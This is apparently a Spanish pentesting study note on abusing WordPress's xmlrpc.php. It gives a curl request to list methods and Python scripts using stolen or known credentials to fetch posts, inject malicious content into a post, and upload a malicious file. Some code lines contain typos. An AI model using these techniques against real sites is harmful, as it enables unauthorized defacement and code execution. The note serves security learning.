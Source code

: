 ------
- Tags: #teoria #practica #basico 
- ------

# XMLRPC.php 

El **xmlrpc.php** en Wordpress es un archivo cxon extensión .php que permite realizar tareas remotas por el método conocido como POST en programación, como por ejemplo, publicar o editar artículos o entradas. 

-----
# Abuso de xmlrcp.php

Cuando nos referimos a abusar del **xmlrpc.php** hacemos alución al uso que podríamos llegar a obtener gracias a este archivo. 

-----
## Listar métodos disponibles 

Si envíamos como data en una solicitud por POST el siguiente payload (Obtenido de la web oficial de [wordpress](https://codex.wordpress.org/XML-RPC/system.listMethods))

```xml
<methodCall>
  <methodName>system.listMethods</methodName>
  <params></params>
</methodCall>
```

Con herramientas como curl, podríamos ver en la respuesta del servidor un listado de los metodos que podemos usar para abusar de estos como la enumeración de usuarios, la edición de posts, etc. 

```bash
curl -s -X POST {url} -s '<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>'
```

------
## Obtener los POSTS de la página

Para poder obtener los posts de la página y a la par verificar que las credenciales que tenemos que tener sean válidas, podríamos intentar obtener los posts de la web. Para esto podemos hacer uso del modulo **python-wordpress-xmlrpc** para con python hacer uso de un script y obtener los valores que necesitemos.

```bash
pip3 install python-wordpress-xmlrpc
```

 De esta manera podríamos hacer uso de este modulo para crear un script en python y obtener valores

```python
from wordpress_xmlrpc import Client 
from wordpress_xmlrpc.methods import posts
client = Client('{url_xmlrpc.php}', '{username}', '{password}')
post = client.call(posts.GetPosts())
```

De esta manera en la variable *post* ahora tendríamos todos los posts publicados. 

```bash
post # Listar los posts
dir(post[0]) # Listar los attributos del primer post 

# Listar atributos
post[0].link
post[0].id
```

------
## Editar POSTS de la página

Una vez que tengamos los posts en la página, tal vez exista una vía potencial para cambiar un codigo que se ejecuta en php u otras funcionalidades. 

```python
from wordpress_xmlrpc import Client 
from wordpress_cmlrpc.methods import posts
client = Client('{url_xmlrpc.php}', '{username}', '{password}')
post = client.call(posts.GetPosts())
 
malicious_post = post[0] # Podríamos quedarnos con el post que querramos editar
malicious_content = "{new_malicious_content}" 
malicious_post.content = malicious_content

client.call(posts.EditPost(malicious_post.id, malicious_post)) # A esta función se le debe pasar el identificador del post a modificar y el nuevo post modificado
```

De esta manera tal vez exista un post en la página el cual ejecute una función en php y haciendo uso de esto podríamos intentar cambiar esto para inyectar nuestros comandos maliciosos. 

---------
## Subir archivos maliciosos

Otra cosa que podríamos intentar hacer es subir archivos maliciosos al sistema, de esta manera podríamos desplegar en una ruta de la web nuestro propio script malicioso.

```python
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods import media 
client = Client('{url_xmlrpc.php}', '{username}', '{password}')

with open("{mcalicious_file_to_upload}", "r") as f:
	filename = f.read()

post_file = {'name':'{filename}','bits':filename,'type':'{content-type}'}

client.call(media.UploadFile(post_file))
```

De esta manera, si la web esta desplegada bajo la ruta **/var/www/html** en caso de que la subida del archivo sea exitosa, nos arrojara información como el path donde estará alojado este archivo. 

